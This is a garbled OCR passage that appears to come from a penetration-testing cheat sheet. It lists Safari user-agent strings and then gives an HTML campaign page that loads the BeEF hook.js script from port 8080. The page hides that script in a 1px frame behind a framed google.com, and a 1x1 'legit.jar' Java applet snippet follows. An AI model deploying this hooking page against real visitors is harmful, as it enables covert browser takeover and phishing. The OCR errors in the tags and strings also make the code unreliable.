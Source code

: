 ### Safari \(6.0\)

| **Agent** | **Version** |
| :--- | :--- |
| Mozilla/5.0 \(Macintosh; Intel Mac OS X 10 ~ 5\) AppleWebKit/536.26.17 \(KHTML, like Ge~ko\) Version/6.0.2 Safari/536.26.17 | Safari 6.0/MacOSX |

### Mobile safari \(4.0 & 6.0\)

| **Agent** | **Version** |
| :--- | :--- |
| Mozilla/5.0 \(iPad; CPU OS 6 0 1 like Mac OS X\) AppleWebKit/536.26 \(KHTML, like Gecko\) Version/6.0 Mobile/10A523 Safari/8536.25 | Mobile Safari 6.0/iOS \(iPad\) |
| Mozilla/5.0 \(iPhone; CPU iPhone OS 6 0 1 like l~ac OS X\) AppleWebKit/536.26 \(KHTML, like Gecko\) Version/6.0 Mobile/10A523 Safari/8536.25 | Mobile Safari 6.0/iOS \(iPhone\) |
| Mozilla/5.0 \(Linux; U; Android 2.2; fr-fr; Desire A8181 Build/FRF91\) App3leWebKit/53.1 \(KHTML, like Gecko\) Version/4. 0 Mobile Safari/533.1 | Mobile Safari 4.0/Android |

## HTML language

### beef code embedded in iframe


```text
!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
html
head.
title Campaign Title· /title
script
var commandModuleStr = ' script src= "' + window.location.protocol +
'//' + window. location. host + ':8080/hook.js"
type="text/javascript" \/script.';
document.write(commandModuleStr);
//Site refresh=window.setTimeout(function() {window.location.href='http://ww
w.google.com/'},20000);
/script
/head
frameset rows="*,1px"
frame src="http://www.google.com/" frameborder=O
noresize="noresize" /
frame src="/e" frarneborder=O scrolling=no noresize=noresize /
/frameset
/html
```

### Embedded java applet code \(\* must be placed in &lt;body&gt;\)

```text
applet archive="legit.jar" code="This is a legit applet" width="1"
height="1"
/applet
```
